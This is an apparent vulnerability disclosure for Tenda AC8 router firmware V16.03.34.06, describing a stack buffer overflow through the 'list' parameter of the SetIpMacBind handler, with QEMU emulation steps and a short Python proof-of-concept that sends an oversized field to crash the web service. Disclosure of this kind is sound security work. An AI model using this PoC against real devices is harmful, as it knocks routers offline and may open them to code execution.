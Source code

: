 sub\_49E098
-----------

Tenda AC8 version **V16.03.34.06** was discovered to contain a stack overflow via the list parameter in the function sub\_49E098.

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

![](api/attachments/wUZXhdW3Lr7h/image/image.png)

In lines 30 and 38 of the function, data is read from a user-supplied parameter passed by the caller function. However, the variable is passed without any length validation, which could result in a stack-based buffer overflow at either line 30 or 38. Consequently, an attacker could exploit this vulnerability by crafting a malicious request, potentially leading to a denial of service (DoS) condition or even remote code execution (RCE). This poses a significant security risk, as it allows an attacker to crash the system or execute arbitrary code remotely.

### PoC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```text-plain
import requests

headers = {
    'Host': '192.168.142.100',
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
ip = "192.168.142.100"
ipaddr = "1" * 0x1000
data = 'bindnum=1&list=deviceName1\r10:11:11:11:11:11\r' + ipaddr

response = requests.post(
    f'http://{ip}/goform/SetIpMacBind', 
    headers=headers, 
    data=data, 
    verify=False)
```
